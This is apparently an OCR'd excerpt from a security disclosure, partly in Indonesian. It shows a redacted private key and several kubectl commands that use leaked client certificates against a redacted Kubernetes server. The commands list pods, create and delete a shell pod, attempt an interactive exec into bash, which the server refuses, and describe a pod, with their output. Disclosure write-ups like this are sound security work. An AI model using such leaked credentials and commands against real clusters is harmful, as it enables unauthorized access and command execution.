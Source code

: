 ```
██████████
███
██████
█████████
████████
██████████
█████████
████
████
████████
████
███████
-----END RSA PRIVATE KEY-----
```

#### Mengunakan Kubelet untuk _arbitary commands_

```
$ kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://██████ get pods --all-namespaces

NAMESPACE                                   NAME                                                              READY     STATUS             RESTARTS   AGE
████████                    ██████████                    1/1
```

```
$ kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://████████ create -f https://k8s.io/docs/tasks/debug-application-cluster/shell-demo.yaml

pod "shell-demo" created
$ kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://██████████ delete pod shell-demo

pod "shell-demo" deleted
```

```
$ kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://█████████ exec -it shell-demo -- /bin/bash

Error from server (Forbidden): pods "shell-demo" is forbidden: User "███" cannot create pods/exec in the namespace "default": Unknown user "███"
```

```
$ kubectl --client-certificate client.crt --client-key client.pem --certificate-authority ca.crt --server https://███ describe pods/█████ -n █████████

Name:           ████████
Namespace:      ██████
Node:           ██████████
Start Time:     Fri, 23 Mar 2018 13:53:13 +0000
Labels:         █████
                ████
                █████
Annotations:    <none>
Status:         Running
IP:             █████████
Controlled By:  █████
Containers:
  default-http-backend:
    Container ID:   docker://███
    Image:          ██████
    Image ID:       docker-pullable://█████
```